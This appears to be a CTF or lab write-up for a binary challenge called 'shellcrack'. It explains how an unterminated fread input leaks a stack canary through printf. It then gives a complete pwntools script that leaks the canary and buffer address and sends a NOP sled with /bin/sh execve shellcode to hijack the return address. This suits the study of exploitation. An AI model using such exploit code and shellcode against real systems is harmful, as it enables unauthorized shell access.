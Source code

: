 ## **5. canary-2 - shellcrack**
_General overview of problems faced:_   
Have to research about canary and methods to bypass it

_List of vulnerabilities:_    
1. Using fread to get a 16 bytes input from user but did not add a null terminator at the end which cause the printf function to print the memory until the next null byte and thus leaked the value of the canary

_Steps to exploit:_ 
1. Enter 15 bytes and then a newline _"\n"_ to the buffer
2. Extract the first 8 bytes of output after the newline which is going to be the value of the canary
3. From the binary, find the offset to overwrite the canary value
4. Put the shellcode before the canary value and have _(offset-shellcode_length)_ NOPs before it
5. Use a cyclic pattern with the payload from above before to find the offset to overwrite the return address
6. Finally fill the offset to return address and append the buffer address given

_Script/Command used:_    
```python
#!/usr/bin/python

from pwn import *
import re

host = "127.0.0.1"
port = 6002

leak_payload = "a"*15 + "\n"
leak_payload = leak_payload[:-1]

c = remote(host, port)
#c = process('../shellcrack')
#gdb.attach(c)

c.recvline()

print("Sending payload to leak canary...")
c.sendline(leak_payload)

c.recvline()

leak = c.recvline()
leak = leak[:8]
print("Leaked Canary: %s" % (leak))

reply = c.recvline()
print(reply)
address = re.search('0x(.{8})', reply).group(0)
print("Buffer Address: %s" % (address))
address = int(address, 0)
address = p32(address)

payload = "\x90"*25
payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
payload += leak
#payload += cyclic(1000)
offset = cyclic_find(0x61616166)
payload += "a"*offset
payload += address

c.sendline(payload)
```